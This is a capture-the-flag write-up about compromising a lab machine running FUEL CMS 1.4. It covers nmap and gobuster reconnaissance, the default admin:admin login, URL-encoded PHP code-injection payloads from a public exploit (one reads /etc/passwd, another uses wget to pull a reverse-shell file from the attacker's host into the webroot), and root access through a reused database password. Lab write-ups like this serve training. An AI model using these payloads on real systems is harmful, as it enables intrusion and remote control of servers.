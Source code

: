 I started with a nmap scan to see what ports are open

```bash
sudo nmap -sC -sV -oN nmap/scan 10.10.161.118
```
# nmap results

```nmap
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```

I ran gobuster in the background to see if I could find any hidden directories while manually visiting the web site

```bash
gobuster dir -u http://10.10.161.118 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html,js -o gobuster.log
```

Visiting the index page displays that it is using fuel 1.4, also on the index page it says that you should
change the default login (admin:admin), I went to the 'fuel' directory which is the login portal for the fuel
cms and tried the default login credentials and was able to login

Using a exploit I found on exploitdb I was able to get code execution on the target machine 

# exploit

https://www.exploit-db.com/exploits/49487

I just used the browser instead of making it a script and running it 

# example of a code execution from the browser

```text
http://10.10.161.118/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a('cat /etc/passwd')%2B%27
```

You will have to view the source code to see the output of the command that was ran

I tried to get it to run a reverse shell command (using nc and bash) and was unable to get a call back
to my machine, so I checked to see if the target machine had wget and it did, so I then made a test script 
to see if I could download the file to the server using wget and get it to run my code and it worked, 
so with that I can now make a reverse shell with php and set up a netcat listener and when I visit that page I 
should get a reverse shell

I was able to get a reverse shell with the method mentioned above

# wget command used in the url

```text
http://10.10.161.118/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a('wget http://10.6.90.147:8000/shell.php -O /var/www/html/shell.php')%2B%27
```

Once inside of the target machine I was able to grab the user flag

Now to escalate to root

Digging around on the system I found a file called 'database.php' inside of /var/www/html/application/config, so I was 
thinking it had to be a configuration file and inside the file it had credentials for root to login to mysql database. So 
I figured what if he used the same password on the target machine

Using the same password that root uses to login to the database lets us escalate to the root user as well

And with that I was able to get the root flag
